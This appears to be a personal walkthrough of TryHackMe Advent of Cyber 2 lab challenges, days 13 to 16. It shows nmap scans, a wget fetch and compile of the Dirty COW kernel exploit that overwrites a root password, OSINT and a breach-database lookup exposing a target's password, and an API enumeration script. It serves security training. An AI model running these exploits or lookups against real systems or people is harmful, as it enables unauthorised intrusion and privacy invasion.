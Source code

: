 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 13: Coal for Christmas

scan the target

```
nmap -sS -sV -T4 10.10.22.125
```

![image](https://user-images.githubusercontent.com/90561566/222445181-223f51f0-5577-4723-92ea-b5e2d54c69cd.png)

telnet into the server, it also gives us the password

![image](https://user-images.githubusercontent.com/90561566/222445565-399e1120-7579-4ab7-9403-b902ba5b5020.png)

we have some infor here

![image](https://user-images.githubusercontent.com/90561566/222446673-60a84c7b-91cf-4c8a-92e7-268576e4c0e3.png)

quick research the file, you will found a version here

```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

transfer the file

![image](https://user-images.githubusercontent.com/90561566/222449024-13b9372a-8cf0-43ee-ab33-446d396b19b3.png)

run the file

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image](https://user-images.githubusercontent.com/90561566/222449198-2b06197c-57bc-414d-84c4-39635464a6d9.png)

we have changed password of an root's user

![image](https://user-images.githubusercontent.com/90561566/222449583-96b6909f-295c-476f-8713-df0c1376ac28.png)

there is an instruction for you

![image](https://user-images.githubusercontent.com/90561566/222449891-e6e847f8-077a-48de-83c5-d8e95690d12f.png)

```
touch coal
tree | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/222450055-2de4cf16-d2d2-4c70-9e0b-937620be0c76.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459180-070864b2-ba15-4177-8bcc-c797b95871d4.png)

![image](https://user-images.githubusercontent.com/90561566/222459226-44c19abd-3fcd-4d45-94e4-02bc1033303e.png)

![image](https://user-images.githubusercontent.com/90561566/222459284-91e5153f-628b-4ef5-bd36-9f042d9bee2c.png)

![image](https://user-images.githubusercontent.com/90561566/222459539-0d9dbc52-dd86-436d-afef-0dc72c88031f.png)

## Day 14: Where's Rudolph?

search his username on google, i see 2 social accounts: twitter and reddit

![image](https://user-images.githubusercontent.com/90561566/222453488-5f7b6f64-18eb-47b5-a223-b9f2d2ce5ced.png)

in his reddit account, click tab comments

![image](https://user-images.githubusercontent.com/90561566/222452436-7b89398a-1d32-47ac-a0c2-dc0b8cf19b59.png)

search robert in google, you will found the next question

![image](https://user-images.githubusercontent.com/90561566/222453138-b534da7f-8391-4ac0-accd-25d4d11d89f4.png)

on his twitter, search for a tv show, it's bachelorette

![image](https://user-images.githubusercontent.com/90561566/222454717-afd87fea-fe18-4112-b34f-cc4f058b7769.png)

he has posted 2 images, on google image, you can find it's chicago

![image](https://user-images.githubusercontent.com/90561566/222455870-52d65996-9a0f-46ef-9d50-07af641e0867.png)

download the high resolution image and check for the exif infor

```
exiftool lights-festival-website.jpg
```

also in the exif data, they have a GPS Position and copyright infor contain our flag

search his email in scylla.sh, his password was reveal as spygame

Use the GPS Position we found earlier on openstreetmap, Look for the nearest Hotel: Chicago Marriott Downtown Magnificent Mile

![image](https://user-images.githubusercontent.com/90561566/222461664-bcd60506-be12-4de6-8a4d-8fbe93786ff4.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459653-6cea6b2b-e719-47b0-8522-d2079745acec.png)

![image](https://user-images.githubusercontent.com/90561566/222459699-ca29013c-cca1-4ed4-8f16-881c0f057d61.png)

## Day 15: There's a Python in my stocking!

Answer:

![image](https://user-images.githubusercontent.com/90561566/223003711-6e051157-8dfa-47dd-ab5a-a547fd42c981.png)

## Day 16: Help! Where is Santa?

scan the target

```
nmap -sS -sV -Pn -T4 10.10.167.235
```

![image](https://user-images.githubusercontent.com/90561566/223004718-fcee83a5-9a6d-424c-a998-9a8e7588b336.png)

view the webpage

![image](https://user-images.githubusercontent.com/90561566/223004863-4f0cc154-9714-444c-8906-a70ab04d1dfd.png)

just guessing, the api is in /api/

![image](https://user-images.githubusercontent.com/90561566/223005034-3bd10fd8-8ce4-4053-b861-45d56dee6061.png)

now, create a script python to solve the question

```
#! /usr/bin/env python
import requests
url = 'http://10.10.167.235/api/'

for i in range(1, 100, 2):
    r = requests.get(url + str(i))
    print(r.text)
```

![image](https://user-images.githubusercontent.com/90561566/223005618-965677ff-7860-46d0-827c-c3f6a0388116.png)

```
python3 script.py
```

![image](https://user-images.githubusercontent.com/90561566/223005728-f1f7cada-2165-4f1e-8e2e-4f1d0984547a.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/223005807-ae7a22f6-cba8-49f6-9564-795658b9f01f.png)

## Day 17: ReverseELFneering





















